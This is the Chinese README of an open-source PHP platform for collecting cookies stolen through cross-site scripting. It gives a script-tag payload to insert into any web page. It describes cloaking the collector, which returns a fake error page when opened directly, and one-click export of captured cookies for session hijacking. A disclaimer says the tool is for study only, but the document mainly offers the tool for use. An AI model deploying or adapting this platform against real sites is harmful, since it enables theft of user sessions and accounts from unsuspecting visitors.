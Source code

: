 # xss个人攻击测试cookie管理平台
php写的个人研究测试用的  xss cookie 攻击管理平台,开源出来
<p>由于在实际测试中需要非常高的执行速度，所以并没有采用框架</p>

![image](https://raw.githubusercontent.com/keyus/xss/master/xss_demo.png)

<h2>本地测试</h2>
<p>虚拟主机域名:xs.com</p>
<code>
&lt;script src="//xs.com"&gt;&lt;/script&gt;
</code>
<p>任意网页中插入以上代码</p>

<h2>仅用于学习交流，禁止用于非法行为，后果自付</h2>

<h2>目录结构</h2>

<pre><code>www  WEB部署目录（或者子目录）
├─admin                 后台目录
│  ├─api.php            删除记录，与改变数据状态的请求
│  ├─auth.php           登录认证
│  ├─function.php       分页类与日期格化函数
│  ├─login.php          后台登陆
│  └─web.php            后台管理主页
|  
├─asset                 资源目录
│  ├─common.css         样式文件
│  └─error.gif          图标
│  
├─mailer                邮件类,本项目中默认未使用到可删除
│
├─cnzz.php              xs接收地址文件,用于把接收到的cookie送入数据库
├─config.php            配置文件，配置后台登录用户名，密码，数据库,以及表名
├─index.php             网站首页
└─xss.sql               默认数据库，自行导入


</code></pre>

<h2>使用</h2>
<ul>
<li>  导入xss.sql到数据库</li>
<li>  正确的配置config.php</li>
<li>  虚拟主机的默认首页名，指向index.php</li>
<li>  正确的配置index.php中 js代码的接收地址,为了提高运行速度并没有在config中配置xs接收地址</li>
</ul>


<h2>功能</h2>

<ul>
<li>  浏览器访问主页，检测HTTP_REFERER,直接地址栏输入访问，返回错误提示 伪装</li>
<li>  只有在源代码中点击script链接才能查看到js代码</li>
<li>  后台管理中心点击[cookie]可以一键复制，导入到editthiscookie等工具中使用</li>
</ul>


<h2>So 然而并卵</h2>
当今的互联网对xss的防范已经做得比较到位了，一般稍微像样点儿的框架都做了防护。只有测试一些古老的asp,或者一些程序员偷懒不做过滤的



